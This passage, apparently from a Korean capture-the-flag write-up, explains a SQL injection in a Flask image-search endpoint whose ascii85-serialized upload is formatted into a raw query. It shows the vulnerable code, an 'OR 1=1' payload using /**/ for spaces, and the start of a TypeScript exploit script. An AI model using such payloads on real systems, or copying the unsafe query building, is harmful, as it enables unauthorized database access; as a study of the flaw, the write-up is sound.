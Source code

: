 플래그의 위치가 들어나 있지는 않지만, 아래 코드와 같이 `serialize_image`의 결과 값이 `format`을 통해 넘겨지면서 `sql injection`이 발생한다.

```python title="views.py" {12, 15-16}
@app.route('/image-search', methods=['GET', 'POST'])
def image_search():
    if 'image-query' not in request.files or request.method == 'GET':
        return render_template('image-search.html', results=[])

    incoming_file = request.files['image-query']
    size = os.fstat(incoming_file.fileno()).st_size
    if size > MAX_IMAGE_SIZE:
        flash("image is too large (50kb max)");
        return redirect(url_for('home'))

    spic = serialize_image(incoming_file.read())

    try:
        res = db.session.connection().execute(
            text("select parent as PID from images where b85_image = '{}' AND ((select active from posts where id=PID) = TRUE)".format(spic)))
    except Exception:
        return ("SQL error encountered", 500)

    results = []
    for row in res:
        post = db.session.query(Post).get(row[0])
        if (post not in results):
            results.append(post)

    return render_template('image-search.html', results=results)

def serialize_image(pp):
    b85 = base64.a85encode(pp)
    b85_string = b85.decode('UTF-8', 'ignore')

    # identify single quotes, and then escape them
    b85_string = re.sub('\\\\\\\\\\\\\'', '~', b85_string)
    b85_string = re.sub('\'', '\'\'', b85_string)
    b85_string = re.sub('~', '\'', b85_string)

    b85_string = re.sub('\\:', '~', b85_string)
    return b85_string
```

`spic`이 `'or 1=1 -- -`이러한 꼴로 나오게 만들어야 한다는 것이다.

근데, `base85`는 띄어쓰기를 지원하지 않기 때문에, `/**/`을 대신 사용한다.

참고로, python에서 `a85decode`와 `b85decode`는 다르며 각각 `Ascii85`, `Base85` 규칙을 따른다.
따라서, 아래 익스 코드에서는 `ascii85`를 사용하는 라이브러리를 사용하였다.

```typescript title="exploit.ts"
import { create } from '@web';
import { logger } from '@utils';
//@ts-ignore
import ascii85 from 'ascii85';

const r = create({
  baseURL: 'http://localhost:8080',
});

const formData = new FormData();

const file = new File(
  [ascii85.decode(`/**/\\\\\\\\\\\\'/**/OR/**/1=1/**/--/**/-`)],
  '1.png',
```